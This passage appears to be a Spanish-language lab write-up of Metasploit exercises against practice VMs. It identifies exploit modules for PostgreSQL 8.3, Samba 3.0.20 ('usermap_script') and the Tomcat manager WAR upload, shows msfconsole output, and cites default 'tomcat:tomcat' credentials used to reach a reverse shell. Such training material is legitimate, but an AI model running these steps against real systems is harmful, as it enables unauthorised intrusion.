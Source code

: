 Así, investigamos el servicio postgresql y su versión PostgreSQL DB 8.3.0 - 8.3.7 y encontramos que existe un exploit en Metasploit 

```
exploit/linux/postgres/postgres_payload   
```

<br />

**3.  There is an exploitable service running on the VM #2. After enumerating the target, find the appropriate Metasploit exploit module for this service, and exploit this service to get a reverse shell to your local Kali machine. Then read the flag locate in the /home/ folder.**

Escaneamos el objetivo y encontramos que tiene un servicio smb (Samba dado que es una máquina Linux), de esta forma buscamos un exploit para el servicio Samba versión smbd 3.X - 4.X y encontramos el siguiente módulo:

```
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

Lo empleamos y asaltamos la máquina.

**4.  There is an exploitable service running on the VM #3. After enumerating the target through msfconsole, find the appropriate Metasploit exploit module for this service, and exploit this service to get a reverse shell to your local Kali machine. Then read the flag locate in the /home/ folder. NOTE: The default 'Exploit target' might be changed to get a working reverse shell**

Escaneamos la máquina y encontramos que podemos logearnos en el apartado del administrador gracias a unas credenciales por defecto "tomcat:tomcat", no encontrmaos nada útil pero gracias a las mismas credenciales podemos acceder al apartado del manager en el que observamos que podemos subir y ejeuctar un fichero WAR. 

De esta forma, buscamos en google una forma de explotar esta característica y seguimos una guía para utilizar el modulo multi/http/tomcat_mgr_upload de metasploit

```
msf6 > search mgr_upload

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_mgr_upload  2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/tomcat_mgr_upload

msf6 > use 0
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
```